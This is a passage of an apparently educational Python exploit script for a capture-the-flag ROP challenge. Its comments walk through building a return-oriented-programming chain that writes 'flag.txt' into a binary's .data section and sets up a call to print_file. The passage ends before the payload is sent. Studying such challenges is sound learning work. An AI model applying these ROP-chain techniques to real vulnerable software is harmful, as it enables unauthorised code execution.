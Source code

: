 	# printint out rop gadget to make sure that it reads: "pop edi ; pop ebp ; ret"
	print("rop gadget 1 is at: ", p32(rop.edi.address))
	
	# it does, so put it into a variable for our payload
	rop_gadget1_addr =  p32(rop.edi.address)
	
	# locate the start of the .data section header 
	data_addr = p32(elf.symbols["data_start"])
	
	# first value we're popping is edi... since we want *edi = ebp = "flag", set edi to .data address
	# this is because we're writing the string "flag" to memory starting at the .data section
	edi = data_addr
	
	# ebp = "flag"
	ebp = b"flag"
	
	# get addr of usefulGadget, our second ROP gadget
	useful_Gadget_addr = p32(elf.symbols["usefulGadgets"]) 
	
	#rop_gadget1_addr stays same, because we will still be using that first ROP gadget to pop edi and ebp
	
	#edi is now data_addr + 0x4, since we are writing 4 more Bytes, and this is a 32-bit process
	edi2 = p32(elf.symbols["data_start"] + 4)
	
	#ebp is now ".txt":
	ebp2 = b".txt"
	
	# get the address of the print_file function--this is our final function that we are leveraging in order to open the "flag.txt" file
	print_file_addr = p32(elf.symbols["plt.print_file"])
	
	# when the program calls print_file, the stack should have an eip at the top (at lower memory address), then arguments below it (at higher memory addresses)... this eip is necessary so that the print_file function knows where to return to after opening our file. However, it is even more important for stack offsets. The program is going to use ebp indexing to determine where its arguments are. It'll expect a value at eip, even though eip isn't properly used and causes a segfault. 
	fake_eip = b"dddd"
	